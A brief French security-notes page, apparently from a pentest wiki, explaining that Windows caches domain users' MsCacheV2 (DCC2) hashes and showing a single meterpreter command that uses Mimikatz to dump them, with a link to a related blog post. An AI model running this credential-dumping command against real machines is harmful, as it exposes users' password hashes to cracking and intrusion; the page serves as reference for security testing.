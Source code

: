 ```yaml
---
title: MsCacheV2
permalink: /MsCacheV2/
---
```


Par défaut Windows stocke des hashs des utilisateurs du domaine qui s'authentifient pour permettre une authentification quand le DC n'est pas joignable.

Mimikatz permet de dumper ces hashs:
```
meterpreter > kiwi_cmd lsadump::cache
```

Ressources
----------
- [MsCache v2 / DCC2 et nombre d’itérations](http://blog.gentilkiwi.com/securite/mscache-v2-dcc2-iteration)
